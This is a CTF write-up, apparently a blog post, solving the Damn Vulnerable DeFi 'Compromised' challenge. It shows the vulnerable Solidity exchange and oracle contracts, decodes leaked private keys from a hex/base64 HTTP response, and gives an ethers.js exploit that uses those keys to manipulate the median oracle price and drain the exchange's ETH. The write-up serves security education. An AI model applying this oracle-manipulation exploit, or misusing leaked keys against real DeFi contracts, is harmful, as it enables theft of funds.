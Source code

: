 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 7: Compromised'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our seventh challenge is called 'compromised' and it comes with the following prompt:

```
While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

          HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
        
A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: 0xA73209FB1a42495120166736362A1DfA9F95A105,0xe92401A4d3af5E446d93D11EEc806b1462b39D15 and 0x81A5D6E50C214044bE44cA0CB057fe119097850c.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.
```

Looks like we have to find a way to steal from the exchange.

The contracts for this challenge are located in contracts/compromised/. The contract source code can be found below:

<details>
<summary> Exchange.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

import "./TrustfulOracle.sol";
import "../DamnValuableNFT.sol";

/**
 * @title Exchange
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract Exchange is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public immutable token;
    TrustfulOracle public immutable oracle;

    event TokenBought(address indexed buyer, uint256 tokenId, uint256 price);
    event TokenSold(address indexed seller, uint256 tokenId, uint256 price);

    constructor(address oracleAddress) payable {
        token = new DamnValuableNFT();
        oracle = TrustfulOracle(oracleAddress);
    }

    function buyOne() external payable nonReentrant returns (uint256) {
        uint256 amountPaidInWei = msg.value;
        require(amountPaidInWei > 0, "Amount paid must be greater than zero");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(amountPaidInWei >= currentPriceInWei, "Amount paid is not enough");

        uint256 tokenId = token.safeMint(msg.sender);
        
        payable(msg.sender).sendValue(amountPaidInWei - currentPriceInWei);

        emit TokenBought(msg.sender, tokenId, currentPriceInWei);

        return tokenId;
    }

    function sellOne(uint256 tokenId) external nonReentrant {
        require(msg.sender == token.ownerOf(tokenId), "Seller must be the owner");
        require(token.getApproved(tokenId) == address(this), "Seller must have approved transfer");

        // Price should be in [wei / NFT]
        uint256 currentPriceInWei = oracle.getMedianPrice(token.symbol());
        require(address(this).balance >= currentPriceInWei, "Not enough ETH in balance");

        token.transferFrom(msg.sender, address(this), tokenId);
        token.burn(tokenId);
        
        payable(msg.sender).sendValue(currentPriceInWei);

        emit TokenSold(msg.sender, tokenId, currentPriceInWei);
    }

    receive() external payable {}
}
```
</div>
</details>

<details>
<summary> TrustfulOracle.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/AccessControlEnumerable.sol";

/**
 * @title TrustfulOracle
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 * @notice A price oracle with a number of trusted sources that individually report prices for symbols.
 *         The oracle's price for a given symbol is the median price of the symbol over all sources.
 */
contract TrustfulOracle is AccessControlEnumerable {

    bytes32 public constant TRUSTED_SOURCE_ROLE = keccak256("TRUSTED_SOURCE_ROLE");
    bytes32 public constant INITIALIZER_ROLE = keccak256("INITIALIZER_ROLE");

    // Source address => (symbol => price)
    mapping(address => mapping (string => uint256)) private pricesBySource;

    modifier onlyTrustedSource() {
        require(hasRole(TRUSTED_SOURCE_ROLE, msg.sender));
        _;
    }

    modifier onlyInitializer() {
        require(hasRole(INITIALIZER_ROLE, msg.sender));
        _;
    }

    event UpdatedPrice(
        address indexed source,
        string indexed symbol,
        uint256 oldPrice,
        uint256 newPrice
    );

    constructor(address[] memory sources, bool enableInitialization) {
        require(sources.length > 0);
        for(uint256 i = 0; i < sources.length; i++) {
            _setupRole(TRUSTED_SOURCE_ROLE, sources[i]);
        }

        if (enableInitialization) {
            _setupRole(INITIALIZER_ROLE, msg.sender);
        }
    }

    // A handy utility allowing the deployer to setup initial prices (only once)
    function setupInitialPrices(
        address[] memory sources,
        string[] memory symbols,
        uint256[] memory prices
    ) 
        public
        onlyInitializer
    {
        // Only allow one (symbol, price) per source
        require(sources.length == symbols.length && symbols.length == prices.length);
        for(uint256 i = 0; i < sources.length; i++) {
            _setPrice(sources[i], symbols[i], prices[i]);
        }
        renounceRole(INITIALIZER_ROLE, msg.sender);
    }

    function postPrice(string calldata symbol, uint256 newPrice) external onlyTrustedSource {
        _setPrice(msg.sender, symbol, newPrice);
    }

    function getMedianPrice(string calldata symbol) external view returns (uint256) {
        return _computeMedianPrice(symbol);
    }

    function getAllPricesForSymbol(string memory symbol) public view returns (uint256[] memory) {
        uint256 numberOfSources = getNumberOfSources();
        uint256[] memory prices = new uint256[](numberOfSources);

        for (uint256 i = 0; i < numberOfSources; i++) {
            address source = getRoleMember(TRUSTED_SOURCE_ROLE, i);
            prices[i] = getPriceBySource(symbol, source);
        }

        return prices;
    }

    function getPriceBySource(string memory symbol, address source) public view returns (uint256) {
        return pricesBySource[source][symbol];
    }

    function getNumberOfSources() public view returns (uint256) {
        return getRoleMemberCount(TRUSTED_SOURCE_ROLE);
    }

    function _setPrice(address source, string memory symbol, uint256 newPrice) private {
        uint256 oldPrice = pricesBySource[source][symbol];
        pricesBySource[source][symbol] = newPrice;
        emit UpdatedPrice(source, symbol, oldPrice, newPrice);
    }

    function _computeMedianPrice(string memory symbol) private view returns (uint256) {
        uint256[] memory prices = _sort(getAllPricesForSymbol(symbol));

        // calculate median price
        if (prices.length % 2 == 0) {
            uint256 leftPrice = prices[(prices.length / 2) - 1];
            uint256 rightPrice = prices[prices.length / 2];
            return (leftPrice + rightPrice) / 2;
        } else {
            return prices[prices.length / 2];
        }
    }

    function _sort(uint256[] memory arrayOfNumbers) private pure returns (uint256[] memory) {
        for (uint256 i = 0; i < arrayOfNumbers.length; i++) {
            for (uint256 j = i + 1; j < arrayOfNumbers.length; j++) {
                if (arrayOfNumbers[i] > arrayOfNumbers[j]) {
                    uint256 tmp = arrayOfNumbers[i];
                    arrayOfNumbers[i] = arrayOfNumbers[j];
                    arrayOfNumbers[j] = tmp;
                }
            }
        }        
        return arrayOfNumbers;
    }
}
```
</div>
</details>

<details>
<summary> TrustfulOracleInitializer.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrustfulOracle.sol";

/**
 * @title TrustfulOracleInitializer
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrustfulOracleInitializer {

    event NewTrustfulOracle(address oracleAddress);

    TrustfulOracle public oracle;

    constructor(
        address[] memory sources,
        string[] memory symbols,
        uint256[] memory initialPrices
    )
    {
        oracle = new TrustfulOracle(sources, true);
        oracle.setupInitialPrices(sources, symbols, initialPrices);
        emit NewTrustfulOracle(address(oracle));
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
https://vomtom.at/ethereum-private-and-public-keys/
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
https://gchq.github.io/CyberChef/
</div>
</details>

<details>
<summary> Hint 3:</summary>
<br>
<div markdown="1">
What do you get when you translate the hex to utf-8 and then base64 decode it? [Answer](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,'')&input=ICAgICAgICAgIDRkIDQ4IDY3IDc5IDRkIDQ0IDY3IDc5IDRlIDQ0IDRhIDZhIDRlIDQ0IDQyIDY4IDU5IDMyIDUyIDZkIDU5IDU0IDZjIDZjIDVhIDQ0IDY3IDM0IDRmIDU3IDU1IDMyIDRmIDQ0IDU2IDZhIDRkIDZhIDRkIDMxIDRlIDQ0IDY0IDY4IDU5IDMyIDRhIDZjIDVhIDQ0IDZjIDY5IDVhIDU3IDVhIDZhIDRlIDZhIDQxIDdhIDRlIDdhIDQ2IDZjIDRmIDU0IDY3IDMzIDRlIDU3IDVhIDY5IDU5IDMyIDUxIDMzIDRkIDdhIDU5IDdhIDRlIDQ0IDQyIDY5IDU5IDZhIDUxIDM0Cg)
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
The biggest hurdle for this challenge to overcome is figuring out what the HTTP response contains. Once we figure that out, the rest comes down to implementing our exploit. The HTTP response contains two long hex strings. If we throw it in cyber chef using the magic recipe (the decode path looks like this: Hex -> UTF-8 -> Base64), we see that it contains a 64 character hex string. Interestingly enough, this is the exact length of an Ethereum key. Looking at the contract source code for this challenge, we can tell that the exchange relies on a median price as retrieved a trusted oracle. This median price is taken from 3 trusted sources. In other words, if we can manipulate two of the sources then we can arbitrarily change the exchange's price for an NFT to whatever we want. It would be really convenient if we could sign transactions on behalf of two of the trusted sources.. As it turns out, we do in fact have the private key to two of the trusted sources and we can complete this challenge. Using this, we can set the price of the NFT to 0, allowing our attacker to buy one for a very small amount. Then, before our attacker goes to resell the NFT, we can set the price of that NFT to the exchange's balance of ETH. Now our attacker has all of the ETH the exchange started with and we have completed the challenge.
</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */

        trusted_source1 = await new ethers.Wallet('0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9', ethers.provider);
        trusted_source2 = await new ethers.Wallet('0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48', ethers.provider);
        
        await this.oracle.connect(trusted_source1).postPrice("DVNFT",0);
        await this.oracle.connect(trusted_source2).postPrice("DVNFT",0);

        my_token = await this.exchange.connect(attacker).buyOne({ value: ethers.utils.parseUnits("0.1", 17)});
        const tw = await my_token.wait();
        const event = tw.events.find(event => event.event === 'TokenBought');
        const [from, tok, value] = event.args;

        await this.oracle.connect(trusted_source1).postPrice("DVNFT",EXCHANGE_INITIAL_ETH_BALANCE.toString());
        await this.oracle.connect(trusted_source2).postPrice("DVNFT",EXCHANGE_INITIAL_ETH_BALANCE.toString());
        
        await this.nftToken.connect(attacker).approve(this.exchange.address, tok);
        await this.exchange.connect(attacker).sellOne(tok);

        await this.oracle.connect(trusted_source1).postPrice("DVNFT",INITIAL_NFT_PRICE.toString());
        await this.oracle.connect(trusted_source2).postPrice("DVNFT",INITIAL_NFT_PRICE.toString());
    });
```
</div>
</details>